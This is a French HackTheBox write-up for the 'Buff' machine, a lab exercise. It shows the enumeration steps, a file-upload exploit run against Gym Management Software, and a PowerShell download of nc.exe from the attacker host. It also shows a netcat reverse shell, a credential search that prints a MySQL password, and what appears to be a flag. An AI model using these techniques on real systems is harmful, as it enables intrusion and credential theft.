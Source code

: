 ```yaml
---
layout: post
title: Buff
subtitle: HackTheBox
tags: [htb]
comments: false
---
```


Mes notes pour Buff.

## nmap

```
kali@kali:/media/sf_htb/buff_10.198$ nmap -Pn -sV -p- 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up (0.32s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 929.06 seconds

```

## website

```
kali@kali:/media/sf_htb/buff_10.198$ curl http://10.10.10.198:8080/contact.php | html2text 

 Toggle navigation     About_Fitness
    * Home
    * Package
    * Facilities
    * About
    * Contact
[email               ]
[********************]
[Sign in]
    * mrb3n's Bro Hut
    * Made using Gym Management Software 1.0
===============================================================================

```

## Gym Management Software

Exploit : https://www.exploit-db.com/raw/48506

```
Gym Management System version 1.0 suffers from an Unauthenticated File Upload Vulnerability allowing Remote Attackers to gain Remote Code Execution (RCE) on the Hosting Webserver via uploading a maliciously crafted PHP file that bypasses the image upload filters.
```

Nous devons trouver upload.php selon la doc de l'exploit. Mais cette page n'existe pas.

## gobuster

Il existe bien un /upload.php, mais l'accès n'est pas permis.  

```
kali@kali:/media/sf_sync$ gobuster dir -u http://10.10.10.198:8080 -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 80 -a Linux
[..]
/ex (Status: 301)
[..]
/upload (Status: 301)
```

En revanche le /ex contient bien un fichier upload.php !

## gym exploit

J'exécute l'exploit sur la racine du site et j'obtiens un shell.

```
kali@kali:/media/sf_sync/practice/htb/buff_10.198$ python 48506.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,                                                                                           
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> 
```



On télécharge un nc.exe puis on établit un reverse shell plus adapté que le webshell.

```
# attacker
kali@kali:/usr/share/windows-resources/binaries$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.198 - - [03/Sep/2020 15:10:27] "GET /nc.exe HTTP/1.1" 200 -
```

```
# victim
C:\xampp\htdocs\gym\upload> powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.15.38:8000/nc.exe','C:\xampp\htdocs\gym\upload\nc.exe')"

C:\xampp\htdocs\gym\upload> nc.exe -nv 10.10.15.38 40000 -e cmd.exe
```

```
# attacker 
kali@kali:/usr/share/windows-resources/binaries$ sudo nc -nlvp 40000
listening on [any] 40000 ...
connect to [10.10.15.38] from (UNKNOWN) [10.10.10.198] 50703
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>
```

enum

Je remarque un port 3306 (mysql) en écoute. Je me mets en recherche de creds.

```
C:\xampp\htdocs\gym> findstr /spin "mysql" *.*
New Text Document.txt:1:$mysql_host = "mysql16.000webhost.com";
New Text Document.txt:2:$mysql_database = "a8743500_secure";
New Text Document.txt:3:$mysql_user = "a8743500_secure";
New Text Document.txt:4:$mysql_password = "ipad12345";packages.php:8:if (login_check($mysqli) == true) {
```

Je constate la présence d'un processus nommer cloudme.exe

```
tasklist /svc
cmd.exe                       8624 N/A                                         
conhost.exe                   8500 N/A                                         
curl.exe                      8824 N/A                                         
CloudMe.exe                   3668 N/A                                         
timeout.exe                   3520 N/A                                         
tasklist.exe                  8740 N/A  
```

https://p0i5on8.github.io/posts/hackthebox-buff/

4c827b7074e99eefd49d05872185f7f8

